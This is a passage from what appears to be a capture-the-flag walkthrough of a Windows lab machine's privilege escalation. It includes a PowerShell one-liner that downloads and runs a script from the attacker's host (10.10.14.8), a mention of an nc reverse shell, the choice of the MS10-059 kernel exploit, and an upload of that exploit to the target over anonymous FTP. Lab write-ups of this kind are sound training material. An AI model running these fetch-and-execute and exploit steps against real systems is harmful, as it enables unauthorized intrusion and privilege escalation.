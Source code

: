 ```
Logon script                 
User profile                 
Home directory               
Last logon                   18/3/2017 2:17:50 ��

Logon hours allowed          All

Local Group Memberships      *Users                
Global Group memberships     *None 
```
User babis does not require any password, that might be something interesting.

As patches are missing, use Sherlock script to find vulnerabilities:

https://github.com/rasta-mouse/Sherlock

https://vk9-sec.com/sherlock-find-missing-windows-patches-for-local-privilege-escalation/

Download github and spawn a http server which can be called from the victim machine

```
$ python -m http.server 9000 
Serving HTTP on 0.0.0.0 port 9000 (http://0.0.0.0:9000/) ...
```

Execute Sherlock remotely from the victim machine
```
c:\Windows\Temp>powershell "iex(new-object net.webclient).downloadString('10.10.14.8:9000/Sherlock.ps1');Find-AllVulns"
```

Powershell seems to get stuck, reverse shell over nc cannot handle it. One option is to go to meterpreter, but for now we use 

-winpeas.bat: https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASbat

-wesng (https://github.com/bitsadmin/wesng) is a Windows Exploit Suggester Next Generation, and it find 236 vulnerabilities.

So much to choose from, let's go with CVE-2010-2554 (MS10-059).

Change to a Windows 32-bit machine for compiling the exploit (https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri).


FTP the executable to the target host

```
$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> bin
200 Type set to I.
ftp> put Chimichurri.exe
local: Chimichurri.exe remote: Chimichurri.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
862720 bytes sent in 3.23 secs (260.6575 kB/s)
ftp> bye
221 Goodbye.

```
